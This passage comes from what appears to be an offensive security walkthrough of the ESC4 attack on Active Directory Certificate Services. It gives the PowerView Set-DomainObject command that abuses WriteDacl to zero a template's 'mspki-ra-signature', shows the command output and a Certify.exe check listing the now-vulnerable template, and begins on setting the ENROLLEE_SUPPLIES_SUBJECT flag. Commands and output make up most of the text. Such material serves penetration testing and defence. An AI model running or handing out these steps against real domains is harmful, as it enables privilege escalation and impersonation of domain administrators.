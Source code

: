 The number of Authorized Signatures for certificate templates is specified with `mspki-ra-signature`.
Abusing WriteDacl, we can set `mspki-ra-signature` attribute to `0` by `Set-DomainObject` function of PowerView: 

```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=local" -Identity ESC4 -Set @{'mspki-ra-signature'=0} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CONTOSO.LOCAL/CN=Certificate Templates,CN=Public Key
Services,CN=Services,CN=Configuration,DC=contoso,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-ra-signature' to '0' for object ''
PS C:\Tools>
```

The results can be verified using `Certify.exe`, etc.:

```
C:\Tools>Certify.exe find /vulnerable

--snip--

[!] Vulnerable Certificates Templates :

    CA Name                         : CA01.contoso.local\contoso-CA01-CA
    Template Name                   : ESC4
    Schema Version                  : 2
    Validity Period                 : 1 year
    Renewal Period                  : 6 weeks
    msPKI-Certificates-Name-Flag    : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag           : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required  : 0
    Application Policies            : Encrypting File System
    pkiextendedkeyusage             : Encrypting File System
    Permissions
      Enrollment Permissions
        Enrollment Rights           : CONTOSO\Domain Admins         S-1-5-21-3654360273-254804765-2004310818-512
                                      CONTOSO\Domain Users          S-1-5-21-3654360273-254804765-2004310818-513
                                      CONTOSO\Enterprise Admins     S-1-5-21-3654360273-254804765-2004310818-519

--snip--
```

`Authorized Signatures Required` is `0`.
Now we can issue certificate with the ESC4 template without any Authorized Signatures.


### Enabling SAN Specification
Similar to the Manager Approval requirement, SAN setting can be controlled by flag bits in `mspki-certificate-name-flag` attribute.
According to [Microsoft Docs](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1), the `ENROLLEE_SUPPLIES_SUBJECT` flag bit is `0x00000001`. 
So, abusing WriteDacl, we can set the `ENROLLEE_SUPPLIES_SUBJECT` flag bit by `Set-DomainObject` function of PowerView:
